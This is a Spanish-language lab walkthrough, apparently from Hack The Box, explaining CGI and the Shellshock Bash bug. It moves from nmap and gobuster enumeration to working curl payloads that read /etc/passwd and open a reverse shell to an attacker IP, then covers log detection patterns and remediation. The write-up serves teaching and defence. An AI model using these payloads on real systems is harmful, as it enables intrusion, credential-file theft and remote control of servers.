

El **Common Gateway Interface (CGI)** es un mecanismo clásico para que un servidor web ejecute **scripts o programas externos** y genere respuestas dinámicas. 

En despliegues tradicionales, estos scripts residen en rutas tipo `/cgi-bin` y pueden estar escritos en múltiples lenguajes (C, C++, Java, Perl, etc.). El servidor recibe una petición a una URL bajo esa ruta, ejecuta el script y devuelve al navegador la salida del programa.

El detalle relevante para seguridad no es “CGI como tecnología”, sino el **modelo de ejecución**: los scripts se ejecutan con el **contexto de seguridad del servidor web** (típicamente un usuario como `www-data`) y, por diseño, muchos datos de la petición (cabeceras, parámetros) acaban transformándose en **variables de entorno** accesibles por el proceso que se lanza.

## CGI como superficie heredada

CGI tiene limitaciones operativas conocidas: **un proceso nuevo por cada petición**, conexiones recurrentes a base de datos, ausencia de caché entre cargas y pérdida de eficiencia a medida que crece el tráfico. Por eso, en aplicaciones modernas fue reemplazado por tecnologías más rápidas y seguras. Aun así, sigue apareciendo en **sistemas legacy** y, con frecuencia, en **dispositivos embebidos** o paneles web antiguos.

## Ataques CGI: el caso canónico

El ataque más emblemático asociado a CGI es **Shellshock** (también conocido como “Bash bug”), catalogado principalmente como **CVE-2014-6271**. El problema afecta a versiones antiguas de **GNU Bash** (hasta 4.3) y permite **ejecutar comandos** cuando Bash importa ciertas definiciones desde **variables de entorno**.

En términos prácticos, Shellshock convierte un patrón muy concreto en RCE:

- Entrada no confiable (HTTP u otros canales)
- Conversión de esa entrada a variables de entorno (típico en CGI)
- Ejecución de Bash (directa o indirecta) dentro del flujo del script

Cuando esa cadena existe, un atacante puede construir valores de entorno que, al ser procesados por Bash vulnerable, desencadenan ejecución de comandos en el contexto del usuario del servidor web. En la mayoría de escenarios el primer acceso queda en un usuario de servicio y la escalada de privilegios es un paso posterior; en configuraciones erróneas, el impacto puede ser mayor si el servicio corre con privilegios elevados.

En sistemas parcheados, este comportamiento se elimina: Bash deja de ejecutar contenido “extra” al importar funciones desde el entorno y endurece el formato de dichas definiciones.

## Ejemplo práctico

En esta demostracion enumerare una maquina, explotare una vulnerabilidad de Shellshock.

Objetivo: 10.129.205.27

```sh
$ ping -c2 10.129.205.27
PING 10.129.205.27 (10.129.205.27) 56(84) bytes of data.
64 bytes from 10.129.205.27: icmp_seq=1 ttl=63 time=49.2 ms
64 bytes from 10.129.205.27: icmp_seq=2 ttl=63 time=49.2 ms

--- 10.129.205.27 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1000ms
rtt min/avg/max/mdev = 49.208/49.208/49.209/0.000 ms
```

Escaneo el objetivo usando `nmap`, para identificar los servicios activos que operan actualmente en el sistema. 

Esto me dará información valiosa sobre el objetivo, descubriendo qué servicios y potencialmente qué versiones específicas se están ejecutando y en consecuencia me dará una mejor comprensión de su infraestructura y sus posibles vulnerabilidades.

```sh
nmap -p- -sC -Pn 10.129.205.27 --open 
```

```sh
nmap -p- -sC -Pn 10.129.205.27 --open 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-17 02:59 CST
Nmap scan report for 10.129.205.27
Host is up (0.051s latency).
Not shown: 64378 closed tcp ports (reset), 1155 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
80/tcp open  http
|_http-title: Apache2 Ubuntu Default Page: It works

Nmap done: 1 IP address (1 host up) scanned in 25.74 seconds
```

Me da un servicio de ssh y un servicio http que ademas me muestra que tiene Apache2 corriendo.

Compruebo visualmente el acceso via web.



Realizo una enumeracion basica en el servidor

```sh
gobuster dir -u http://10.129.205.27 -w /usr/share/wordlists/dirb/small.txt
```

```sh
gobuster dir -u http://10.129.205.27 -w /usr/share/wordlists/dirb/small.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.205.27
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/cgi-bin/             (Status: 403) [Size: 278]
Progress: 959 / 960 (99.90%)
===============================================================
Finished
===============================================================
```

Busco scripts CGI.

```
gobuster dir -u http://10.129.205.27/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```


```sh
gobuster dir -u http://10.129.205.27/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.205.27/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              cgi
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/access.cgi           (Status: 200) [Size: 0]
Progress: 1918 / 1920 (99.90%)
===============================================================
Finished
===============================================================

```
Encuentro un scripts CGI, `access.cgi`.

ejecuto cURL en el script y notar que no se nos muestra nada, por lo que tal vez sea un script obsoleto pero aún así vale la pena explorarlo más a fondo.


```sh
curl -i http://10.129.205.27/cgi-bin/access.cgi
```


```sh
curl -i http://10.129.205.27/cgi-bin/access.cgi
HTTP/1.1 200 OK
Date: Sat, 17 Jan 2026 09:04:37 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html
```

A continuacion voy a intentar confirmar la vulnerabilidad


```sh
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.205.27/cgi-bin/access.cgi
```

```sh
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.205.27/cgi-bin/access.cgi

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```

La respuesta me ha devuelto el contenido del fichero passwd del servidor.

Una vez confirmada la vulnerabilidad, puedo obtener acceso inverso al shell de muchas maneras. En este caso voy a utilizar una linea de bash en la que usare netcat para obtener la shell.

Levanto el oyente de netcat para cualquier comunicacion contra mi IP en el puerto 7777

```sh
sudo nc -lvnp 7777
listening on [any] 7777 ...

```
Lanzo el ataque

```sh
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.58/7777 0>&1' http://10.129.205.27/cgi-bin/access.cgi
```


```sh
sudo nc -lvnp 7777
listening on [any] 7777 ...
connect to [10.10.14.58] from (UNKNOWN) [10.129.205.27] 45158
bash: cannot set terminal process group (962): Inappropriate ioctl for device
bash: no job control in this shell
www-data@htb:/usr/lib/cgi-bin$ 

```
Compruebo que mi entorno en el servidor

```sh
www-data@htb:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@htb:/usr/lib/cgi-bin$ whoami
whoami
www-data
www-data@htb:/usr/lib/cgi-bin$ ls
ls
access.cgi
flag.txt
```

Esto demuestra que el endpoint CGI permite **ejecución de comandos** al procesar una cabecera HTTP que termina convertida en variable de entorno y que, a su vez, es interpretada por una versión vulnerable de **Bash**. El impacto práctico es **RCE en el contexto del servicio web**, que en este caso es `www-data`.

## Qué está pasando realmente (CGI → entorno → Bash)

En entornos CGI, Apache expone información de la petición como variables de entorno del proceso. Por ejemplo, la cabecera `User-Agent` suele mapearse a una variable tipo `HTTP_USER_AGENT`. Si el script CGI (o cualquier wrapper en su ejecución) invoca Bash y el sistema está afectado por Shellshock, Bash reinterpreta ciertos valores del entorno como definiciones de función y, en versiones vulnerables, ejecuta contenido adicional.

Cadena de riesgo:

1. Cabecera/entrada controlable por el cliente
2. CGI la convierte en variable de entorno
3. El flujo del CGI termina invocando Bash
4. Bash vulnerable ejecuta comandos

## Evidencia y alcance del hallazgo

**Evidencia mínima (reproducible):**
- URL vulnerable: `/cgi-bin/access.cgi`
- Vector: cabecera `User-Agent`
- Resultado: ejecución de comandos como `www-data` (confirmado por `id/whoami` en la sesión obtenida)

**Alcance realista:**
- Compromiso del servidor web desde HTTP si `/cgi-bin` es accesible y hay scripts CGI ejecutables.
- El acceso inicial suele quedar en usuario de servicio; la criticidad depende de controles adicionales (permisos, segmentación, credenciales expuestas, etc.).

## Detección: indicadores en logs

En muchos casos quedan huellas claras en logs de acceso HTTP. Indicadores típicos:

- Presencia de patrones como `() {` en `User-Agent` u otras cabeceras.
- Cadenas con `BASH_FUNC_` (en intentos contra sistemas parcialmente parcheados o por variaciones del payload).
- Picos de peticiones a `/cgi-bin/` seguidos de respuestas anómalas.

Ejemplos de búsquedas defensivas (servidor):

```bash
# Apache access logs (rutas comunes)
grep -R --line-number -E '\(\)\s*\{|BASH_FUNC_|cgi-bin' /var/log/apache2/ 2>/dev/null

# Filtro más específico: Shellshock clásico
grep -R --line-number -E '\(\)\s*\{\s*:;\s*\}' /var/log/apache2/ 2>/dev/null
```

Si hay SIEM, la firma base es: User-Agent contiene () { y el request toca rutas CGI o endpoints legacy.

## Remediación (priorizada)

### Parcheo de Bash

- Actualizar Bash a una versión corregida por el proveedor.
- Verificar que no se aplicó solo el parche inicial histórico (familia Shellshock tuvo bypasses).
- Eliminar o reducir superficie CGI
- Deshabilitar CGI si no es imprescindible.
- Restringir ScriptAlias y permisos de ejecución en /cgi-bin a lo estrictamente necesario.
- Revisar scripts heredados: evitar invocaciones innecesarias a Bash y sanitizar entradas.

### Controles compensatorios

- Segmentación y reducción de exposición externa del servidor.
- WAF/Reverse proxy con reglas específicas para bloquear patrones conocidos (como () { en cabeceras), como mitigación temporal mientras se parchea.

## Referencias
CVE-2014-6271 (Shellshock)

